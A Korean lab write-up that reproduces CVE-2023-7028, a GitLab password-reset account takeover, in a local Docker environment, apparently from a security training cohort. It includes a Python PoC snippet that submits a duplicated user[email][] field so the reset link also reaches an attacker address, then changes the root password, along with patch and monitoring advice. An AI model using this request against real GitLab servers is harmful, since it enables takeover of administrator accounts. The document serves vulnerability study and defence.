



# GitLab 비밀번호 초기화 계정 탈취 (CVE-2023-7028)

WHS 4기 31반 [김우성(@zickzick2)](https://github.com/zickzick2/)

## 취약점 요약

CVE-2023-7028은 GitLab의 비밀번호 초기화 이메일 검증 오류로 발생하는 계정 탈취 취약점이다. 인증되지 않은 공격자가 `user[email]` 값을 배열로 전달하면 피해자의 등록 주소와 공격자가 지정한 미검증 주소에 동일한 비밀번호 초기화 링크가 발송된다. 2단계 인증이 설정되지 않은 계정은 공격자가 링크를 이용해 비밀번호를 변경하고 완전히 탈취할 수 있다.

- 대상 제품: GitLab Community Edition / Enterprise Edition
- 취약 버전: 16.1.0 이상 16.1.6 미만, 16.2.0 이상 16.2.9 미만, 16.3.0 이상 16.3.7 미만, 16.4.0 이상 16.4.5 미만, 16.5.0 이상 16.5.6 미만, 16.6.0 이상 16.6.4 미만, 16.7.0 이상 16.7.2 미만
- 실습 버전: GitLab CE 16.7.0
- 공격 조건: 원격 접근 가능, 인증 불필요, 사용자 상호작용 불필요, 피해자 계정에 2단계 인증 미설정
- 영향: 관리자 계정을 포함한 임의 계정 비밀번호 변경 및 계정 탈취
- Risk Score: **10.0 Critical**
- CVSS: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H`

## 환경 구성

| 서비스 | 역할 | 고정 버전 |
| --- | --- | --- |
| `gitlab` | 취약한 GitLab CE와 초기 `root` 계정 제공 | `16.7.0-ce.0` + image digest |
| `smtp` | 초기화 이메일을 외부 전송 없이 메모리에 저장하고 HTTP API로 제공 | 저장소에 포함된 `smtp/server.py` |

파일 구조는 다음과 같다.

```text
GitLab/CVE-2023-7028/
|-- 1.png
|-- 2.png
|-- 3.png
|-- Dockerfile
|-- docker-compose.yml
|-- poc.py
|-- README.md
`-- smtp/
    |-- Dockerfile
    `-- server.py
```

취약한 GitLab 이미지는 공식 `gitlab/gitlab-ce` 이미지의 digest를 `Dockerfile`에 고정했다. 
외부 메일 없이 poc를 작동시키기 위해 SMTP를 함께 빌드하였다.

기본 실습 값은 다음과 같다.

| 항목 | 값 |
| --- | --- |
| GitLab URL | `http://localhost:8080` |
| SMTP 확인 URL | `http://localhost:8025` |
| 피해 계정 | `root` / `admin@example.com` |
| 초기 비밀번호 | `cve_test1!` |
| PoC 변경 비밀번호 | `Hacked!!` |

## 취약 조건

아래 조건이 동시에 만족되면 계정 탈취가 가능하다.

1. GitLab이 CVE-2023-7028 패치가 적용되지 않은 버전이다.
2. 공격자가 `/users/password` 비밀번호 초기화 기능에 접근할 수 있다.
3. 공격자가 피해 계정의 이메일 주소를 알고 있다.
4. 애플리케이션이 배열 형태의 `user[email]` 값을 허용하고 미검증 주소에도 초기화 링크를 발송한다.
5. 피해 계정에 2단계 인증이 설정되어 있지 않다. 2단계 인증이 있으면 비밀번호는 변경할 수 있지만 두 번째 인증 요소 없이 로그인할 수 없다.

## 재현 절차

### 1. 환경 세팅

Docker와 Docker Compose, Python 3.8 이상이 필요하다.
기존 볼륨까지 삭제한 뒤 이미지를 빌드하고 실행한다.

```bash
cd GitLab/CVE-2023-7028
docker compose down -v --remove-orphans
docker compose up --build -d
```

### 2. PoC 실행

GitLab 최초 기동에는 수 분이 걸릴 수 있다. `gitlab`의 상태가 `(healthy)`, `smtp`의 상태가 `Up`인지 확인한 뒤 PoC를 실행한다.

Linux/macOS:

```bash
python3 poc.py
```

Windows PowerShell:

```powershell
python .\poc.py
```

PoC는 다음 과정을 수정 없이 수행한다.

1. GitLab 비밀번호 초기화 페이지에서 CSRF 토큰을 수집한다.
2. `admin@example.com`과 `attacker@example.test`를 하나의 이메일 배열로 전송한다.
3. 로컬 SMTP 수신기에서 공격자 주소로 전달된 초기화 링크를 가져온다.
4. 링크로 `root` 계정 비밀번호를 변경한다.
5. 변경된 비밀번호로 로그인하고 현재 사용자가 `root`인지 확인한다.

SMTP에 저장된 원본 메일은 브라우저에서도 확인할 수 있다.

```text
http://localhost:8025
```

### 3. 환경 종료

```bash
docker compose down -v --remove-orphans
```

## PoC 코드

전체 PoC는 [`poc.py`](./poc.py)에 포함되어 있다. 취약점을 발생시키는 핵심 요청은 동일한 `user[email][]` 키를 두 번 전송해 Rails가 이메일 값을 배열로 해석하도록 만드는 부분이다.

```python
fields = [
    ("authenticity_token", token),
    ("user[email][]", "admin@example.com"),
    ("user[email][]", "attacker@example.test"),
]
data = urllib.parse.urlencode(fields).encode()
request = urllib.request.Request(
    "http://localhost:8080/users/password",
    data=data,
    method="POST",
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)
```

공격자 주소로 전달된 링크에서 `reset_password_token`을 회수한 뒤, PoC가 동일 세션으로 비밀번호 변경 폼을 제출하고 새 세션에서 로그인을 검증한다.

## 실행 결과

성공하면 다음과 같은 결과가 출력된다.

```text
[+] Reset link captured
[+] Takeover verified: root / Hacked!!
```

GitLab 초기 화면:



공격자 주소로 함께 발송된 비밀번호 초기화 메일:



변경된 비밀번호로 `root` 로그인이 완료된 화면:



## 대응 방안

1. GitLab을 16.7.2, 16.6.4, 16.5.6, 16.4.5, 16.3.7, 16.2.9, 16.1.6 이상 또는 현재 지원되는 최신 보안 버전으로 업그레이드한다.
2. 모든 사용자, 특히 관리자 계정에 2단계 인증을 강제한다.
3. `/users/password` 요청에서 `email` 값이 배열로 기록된 흔적을 점검한다.
4. `gitlab-rails/production_json.log`에서 `/users/password` 요청과 복수 이메일 값을 모니터링한다.

## 참고 자료

- [GitLab 16.7.2 보안 릴리스](https://docs.gitlab.com/releases/patches/patch-release-gitlab-16-7-2-released/)
- [GitLab CVE-2023-7028 공식 레코드](https://gitlab.com/gitlab-org/cves/-/raw/master/2023/CVE-2023-7028.json)
- [GitLab 공개 이슈](https://gitlab.com/gitlab-org/gitlab/-/issues/436084)


## 정리

본 실습에서는 인증되지 않은 공격자가 `user[email]`을 배열로 전송해 피해자와 공격자 주소로 동일한 비밀번호 초기화 링크를 받는 과정을 재현했다. 공격자 주소에서 해당 링크를 회수해 `root` 비밀번호를 변경하고, 변경된 비밀번호로 관리자 로그인이 가능함을 확인했다.
